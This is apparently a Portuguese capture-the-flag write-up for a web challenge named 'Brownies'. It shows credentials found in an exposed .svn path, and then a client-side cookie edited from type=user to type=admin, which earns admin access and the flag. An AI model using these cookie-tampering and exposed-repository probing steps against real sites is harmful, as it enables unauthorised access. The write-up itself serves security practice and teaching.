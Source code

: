 Brownies
========

### Desc:
Hint: think of default files when using source code management systems


Dada a descrição da task, uma das primeiras tentativas foi olhar: http://178.63.58.69:8083/.svn
O que continha o seguinte:

```
use this to try

user: ping
pass: pong

admin: john
```

Usando tal informação pra logar, notamos o seguinte cookie:

`Cookie: type=user; flag=df911f0151f9ef021d410b4be5060972; name=ping`

Como precisamos virar admin, tentamos modificar o cookie para:

`type=admin; flag=527bd5b5d689e2c32ae974c6229ff785; name=john`

O que foi o suficiente! Na página apareceu:

`<h4>Welcome: john</h4><br><a href='index.php'>Logout</a><h4>Hi faked admin :) </h4><br><h5>Flag: 'a012c434d1ec6db911fda4884de14fdd'</h5>`

